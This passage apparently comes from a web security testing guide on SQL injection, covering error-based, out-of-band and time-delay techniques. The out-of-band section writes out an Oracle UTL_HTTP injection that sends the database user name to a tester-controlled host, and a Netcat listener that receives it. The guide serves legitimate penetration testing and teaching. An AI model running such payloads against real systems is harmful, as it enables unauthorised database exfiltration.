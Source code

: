     ORA-292257: host SCOTT unknown

Then the tester can manipulate the parameter passed to GET_HOST_NAME()
function and the result will be shown in the error message.

#### Out of band Exploitation technique

This technique is very useful when the tester find a [Blind SQL
Injection](Blind_SQL_Injection "wikilink") situation, in which nothing
is known on the outcome of an operation. The technique consists of the
use of DBMS functions to perform an out of band connection and deliver
the results of the injected query as part of the request to the tester’s
server. Like the error based techniques, each DBMS has its own
functions. Check for specific DBMS section.

Consider the following SQL query:

    SELECT * FROM products WHERE id_product=$id_product

Consider also the request to a script who executes the query above:

    http://www.example.com/product.php?id=10

The malicious request would be:

    http://www.example.com/product.php?id=10
    |
    |UTL_HTTP.request(‘testerserver.com:80’
    |
    |(SELECT user FROM DUAL)--

In this example, the tester is concatenating the value 10 with the
result of the function UTL_HTTP.request. This Oracle function will try
to connect to ‘testerserver’ and make a HTTP GET request containing the
return from the query “SELECT user FROM DUAL”. The tester can set up a
webserver (e.g. Apache) or use the Netcat tool:

    /home/tester/nc –nLp 80

    GET /SCOTT HTTP/1.1
    Host: testerserver.com
    Connection: close

#### Time delay Exploitation technique

The time delay exploitation technique is very useful when the tester
find a [Blind SQL Injection](Blind_SQL_Injection "wikilink") situation,
in which nothing is known on the outcome of an operation. This technique
consists in sending an injected query and in case the conditional is
true, the tester can monitor the time taken to for the server to
respond. If there is a delay, the tester can assume the result of the
conditional query is true. This exploitation technique can be different
from DBMS to DBMS (check DBMS specific section).
